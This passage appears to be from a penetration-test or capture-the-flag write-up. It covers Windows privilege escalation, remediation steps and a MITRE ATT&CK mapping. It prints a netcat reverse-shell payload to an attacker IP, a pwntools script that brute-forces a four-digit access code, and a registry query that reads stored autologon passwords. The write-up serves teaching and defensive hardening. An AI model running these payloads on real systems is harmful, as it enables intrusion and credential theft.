
* **Assessment Step 26:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Privilege Escalation PoC (Phase 4):** Exploitation of misconfiguration, SUID binary, or vulnerability leading to elevated privileges.


```jsx
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9AbC:\Users\Cortin\Desktop\nc64.exe -e cmd.exe 10.10.14.8 9001
```

09f3b8ad1aa0afbec27961f53f04f644



* **Evidence Verification (Phase 5):** Final administrative validation confirming root/SYSTEM access and retrieval of system flags.


```jsx

from pwn import *
import sys

HOST = sys.argv[1] if len(sys.argv) > 1 else "localhost"
PORT = int(sys.argv[2]) if len(sys.argv) > 2 else 910

for i in range(10000):
    code = f"{i:04d}"           # 4 dígitos con ceros a la izquierda
    try:
        r = remote(HOST, PORT, level='error')
        r.recvuntil(b"[$] ", timeout=2)     # espera al prompt
        r.sendline(code.encode())
        resp = r.recvline(timeout=2) or b""
        r.close()
    except Exception as e:
        log.warning(f"Error con {code}: {e}")
        continue

    # si NO aparece "Access denied", lo damos por válido
    if b"Access denied" not in resp:
        log.success(f"Valid code found: {code}")
        print(resp.decode(errors='ignore').strip())
        break

    if i % 100 == 0:
        log.info(f"Probados hasta {code}")

else:
    log.failure("No code válido encontrado.")
```

---

## 🛡️ 4. Strategic Remediation & Hardening Roadmap

### 🛡️ Prioritized Findings, Attack Path Preconditions & Repeatable Verification

| Finding & Precondition | Attack Path Impact | Remediation Action | Repeatable Verification Command |
| :--- | :--- | :--- | :--- |
| **P1: Public-Facing Network Service Exploitation**<br>*Precondition:* Unauthenticated network service exposure without network segmentation or perimeter access controls. | **High / Critical (Foothold Chokepoint)**<br>Altered the primary attack path by exposing unauthenticated remote access to internal context. | Apply zero-trust ingress filtering, patch exposed service to latest vendor release, and mandate MFA. | `powershell -Command "Test-NetConnection -ComputerName $TARGET_IP -Port $EXPOSED_PORT"` |
| **P1: Local Privilege Escalation**<br>*Precondition:* Insecure local privileges or stored administrative credentials accessible to low-privilege sessions. | **Critical (Full Compromise)**<br>Enabled complete elevation of privileges from unprivileged user to superuser / administrator. | Implement LAPS for local administrator password rotation and audit token privileges. | `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword` |

#### 🔬 Repeatable Verification Procedures (Defensive Validation)

**1. Verification for Ingress / Foothold Mitigation (Public-Facing Network Service Exploitation):**
* **Validation Goal:** Confirm the remote exploitation path is definitively closed and non-exploitable.
* **Deterministic Test Command:**
```bash
powershell -Command "Test-NetConnection -ComputerName $TARGET_IP -Port $EXPOSED_PORT"
```
* **Expected Output upon Successful Remediation:**
```text
TcpTestSucceeded : False (Port blocked by perimeter firewall)
```

**2. Verification for Local Privilege Escalation Mitigation (Local Privilege Escalation):**
* **Validation Goal:** Enforce strict least-privilege boundary preventing local execution context from elevating to administrative/root privileges.
* **Deterministic Test Command:**
```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
```
* **Expected Output upon Successful Remediation:**
```text
ERROR: The system was unable to find the specified registry key or value.
```

### Immediate Tactical Actions (P1)
1. **Patch Management & Software Upgrades:** Immediately apply official security updates and patches for all vulnerable software components and exposed services (N/A).
2. **Access Control & SUID Audit:** Remove unnecessary SUID/SGID bits, audit `/etc/sudoers` rules, and enforce strict Access Control Lists (ACLs) on sensitive files and administrative scripts.
3. **Attack Surface Reduction:** Configure host-based firewalls (e.g., `iptables` / `ufw` / Windows Firewall) to restrict exposure of management services and internal ports to trusted administrative subnets only.

### Architectural & Defensive Hardening (P2)
1. **Principle of Least Privilege (PoLP):** Ensure public-facing daemons run under dedicated low-privileged service accounts configured with non-interactive login shells (`/sbin/nologin`).
2. **Network Microsegmentation:** Isolate production servers and database tiers within dedicated VLANs, enforcing stateful inspection and ingress/egress filtering on east-west traffic.
3. **Endpoint Detection & Telemetry (EDR):** Implement centralized logging and behavior-based detection rules to capture anomalous process spawning, unauthorized script interpreter execution, and suspicious outbound socket connections.

---

## 📊 5. MITRE ATT&CK Enterprise Framework Mapping

| Tactic | Technique ID | Technique Name | Technical Application in Engagement |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Automated and manual port scanning, banner grabbing, and service discovery |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Exploitation of exposed network/web service (Public-Facing Network Service Exploitation) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Interactive reverse shell execution and remote command dispatch |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Control Mechanism / Exploitation | Local elevation to administrative/root privileges (Local Privilege Escalation) |

---

© 2026 **araizcorp** — Technical documentation and security assessment portfolio developed for enterprise penetration testing enablement, vulnerability research, and defensive hardening.
